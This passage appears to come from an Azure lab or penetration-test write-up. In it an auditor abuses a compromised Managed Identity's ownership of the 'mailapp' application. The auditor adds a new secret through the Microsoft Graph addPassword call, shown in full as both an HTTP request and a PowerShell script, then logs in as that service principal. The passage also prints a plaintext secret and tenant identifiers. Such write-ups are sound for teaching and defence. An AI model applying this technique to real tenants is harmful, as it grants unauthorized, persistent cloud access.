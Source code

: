 ```powershell
displayName id                                   appId
----------- --                                   -----
mailapp     0a88da02-e9f4-428a-ab4e-aa94f12e1225 f0823e33-c430-4dd2-a56a-dca3c3a346a4
mailapp     4a9a9c00-bf17-43d8-b437-fe8144c8df15 f0823e33-c430-4dd2-a56a-dca3c3a346a4
```

- The auditor discovered that the compromised Managed Identity owns the `mailapp` Application. This can be abused by adding a new Secret to the `mailapp`  Service Principal which will consequently allow the auditor to authenticate to Azure as this Service Principal/Managed Identity.
###### Postman
```http
POST /v1.0/servicePrincipals/4a9a9c00-bf17-43d8-b437-fe8144c8df15/addPassword HTTP/1.1
Host: graph.microsoft.com
Authorization: eyJ0eX...UzmKKBSg
```
###### PowerShell
```powershell
$GraphToken = (Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
$URL = "https://graph.microsoft.com/v1.0/servicePrincipals/4a9a9c00-bf17-43d8-b437-fe8144c8df15/addPassword"
$Params = @{
"URI" = $URL
"Method" = "POST"
"Headers" = @{
"Content-Type" = "application/json"
"Authorization" = "Bearer $GraphToken"
}
} 
$Body = @{
"passwordCredential"= @{
"displayName" = "Password"
}
}
Invoke-RestMethod @Params -UseBasicParsing -Body ($Body | ConvertTo-Json)
```

- The Response shows the added Secret in it's plaintext form.
```powershell
{
    "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#microsoft.graph.passwordCredential",
    "customKeyIdentifier": null,
    "displayName": null,
    "endDateTime": "2026-04-10T09:20:35.7898641Z",
    "hint": "LVV",
    "keyId": "64298a66-31e0-4d52-939c-32267a3fc161",
    "secretText": "LVV8Q~jRT_iPjf.4zNixGao8oFE~i43XBUWXUbGv",
    "startDateTime": "2024-04-10T09:20:35.7898641Z"
}
```

- The auditor can now use the added secret to authenticate to Azure as the `mailpp` Managed Identity.
```powershell
PS C:\Auditor> $password = ConvertTo-SecureString 'LVV8Q~jRT_iPjf.4zNixGao8oFE~i43XBUWXUbGv' -AsPlainText -Force
PS C:\Auditor> $appid = 'f0823e33-c430-4dd2-a56a-dca3c3a346a4'
PS C:\Auditor> $creds = New-Object System.Management.Automation.PSCredential($appid, $password)
PS C:\Auditor> Connect-AzAccount -Credential $creds -ServicePrincipal -Tenant e0f999c1-86ee-47a0-bfd5-18470154b7cd
WARNING: The provided service principal secret will be included in the 'AzureRmContext.json' file found in the user
profile ( C:\Users\studentuser105\.Azure ). Please ensure that this directory has appropriate protections.

```